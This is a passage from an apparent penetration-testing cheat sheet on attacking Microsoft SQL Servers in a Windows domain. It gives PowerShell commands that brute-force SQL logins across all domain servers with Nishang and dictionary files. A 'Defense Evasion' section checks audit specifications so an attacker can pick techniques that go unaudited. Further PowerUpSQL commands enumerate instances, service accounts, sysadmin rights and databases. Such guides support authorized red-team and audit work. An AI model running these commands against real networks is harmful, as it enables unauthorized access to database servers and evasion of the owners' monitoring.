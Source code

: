 	```powershell
	# Nishang
	$comps = (Get-SQLInstanceDomain).ComputerName
	$comps | Invoke-BruteForce -UserList "C:\dict\users.txt" -PasswordList "C:\dict\passwords.txt" -Service SQL -Verbose
	```

	The "sa" user is always present, but it is disabled by default (if enabled it can always be brute-forced).


### Defense Evasion

In order to evade defense it is suggested to use techniques that aren’t being audited:

1. Get audit server specifications from target SQL Servers:

	```powershell
	# PowerUpSQL
	Get-SQLAuditServerSpec -Verbose -Instance "SQLServer1"
	```

2. Get audit database specifications from target SQL Servers:

	```powershell
	# PowerUpSQL
	Get-SQLAuditDatabaseSpec -Verbose -Instance "SQLServer1"
	```
		
### Information Gathering

Get information (SQL/OS versions, service accounts, ...) from a single server and check if the current user has sysadmin privs:

```powershell
# PowerUpSQL
Get-SQLServerInfo -Verbose -Instance "SQLServer1\Instance1"
```

Get information from domain servers and check if the current user has sysadmin privs:

```powershell
# PowerUpSQL
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
Get-SQLInstanceDomain | Get-SQLServerInfoThreaded -Threads 10 -Verbose
```

Get list of non-default databases:

```powershell
# PowerUpSQL
Get-SQLInstanceDomain | Get-SQLDatabaseThreaded -Verbose -Threads 10 -NoDefaults
```
